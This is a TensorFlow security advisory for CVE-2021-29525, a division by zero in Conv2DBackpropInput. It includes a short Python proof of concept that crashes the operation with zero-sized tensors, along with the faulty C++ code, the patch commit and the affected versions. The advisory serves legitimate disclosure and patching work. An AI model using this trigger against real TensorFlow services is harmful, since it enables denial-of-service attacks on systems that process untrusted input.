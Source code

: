 ## TFSA-2021-014: Division by 0 in `Conv2DBackpropInput`

### CVE Number
CVE-2021-29525

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropInput`:

```python
import tensorflow as tf

input_tensor = tf.constant([52, 1, 1, 5], shape=[4], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 1, 5, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[52, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropInput(input_sizes=input_tensor, filter=filter_tensor,
                               out_backprop=out_backprop, strides=[1, 1, 1, 1],
                               use_cudnn_on_gpu=True, padding='SAME',
                               explicit_paddings=[], data_format='NHWC',
                               dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/b40060c9f697b044e3107917c797ba052f4506ab/tensorflow/core/kernels/conv_grad_input_ops.h#L625-L655) does a division by a quantity that is controlled by the caller:

```cc
  const size_t size_A = output_image_size * dims.out_depth;
  const size_t size_B = filter_total_size * dims.out_depth;
  const size_t size_C = output_image_size * filter_total_size;
  const size_t work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction ? 1 :
      (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

### Patches
We have patched the issue in GitHub commit
[2be2cdf3a123e231b16f766aa0e27d56b4606535](https://github.com/tensorflow/tensorflow/commit/2be2cdf3a123e231b16f766aa0e27d56b4606535).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
